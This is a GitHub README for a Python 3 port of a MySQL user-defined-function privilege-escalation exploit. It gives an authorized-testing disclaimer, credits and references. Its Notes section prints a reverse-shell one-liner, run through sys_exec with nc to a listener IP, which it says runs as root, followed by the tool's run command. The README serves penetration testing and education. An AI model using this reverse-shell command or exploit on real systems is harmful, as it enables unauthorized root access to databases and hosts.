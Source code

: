 # udf_root_py3

**Advisory**
All the binaries/scripts/code of udf_root_py3 should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *
**I cannot accept the credit for this really useful script. I have simply made a few changes to a script I found so that it is Python3 compatible.**
* * *

**Original:** [https://github.com/d7x/udf_root](https://github.com/d7x/udf_root)
Thank you d7x for this awesome script.
* * *

MySQL User-Defined function Dynamic Library Local Privilege Escalation

*** MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit ***

UDF lib shellcodes retrieved from metasploit (there are windows .dll libraries within metasploit as well so this could be easily ported to Windows)

Based on the famous raptor_udf.c by Marco Ivaldi (EDB ID: 1518)
CVE: N/A

References:

[https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html](https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html)

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

[https://www.exploit-db.com/papers/44139/](https://www.exploit-db.com/papers/44139/) - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)


* * *

**Notes**

One thing I noticed when I used this script - the root shell that it attempts to give you after completing was NOT a root shell. However if you exit out of the shell it puts you into and just execute code like:
```
select sys_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 80 >/tmp/f');
```
Then this will execute as root.

To run the tool - use like:
```
python3 udf_root_py3.py --username root --password rootPassword
```
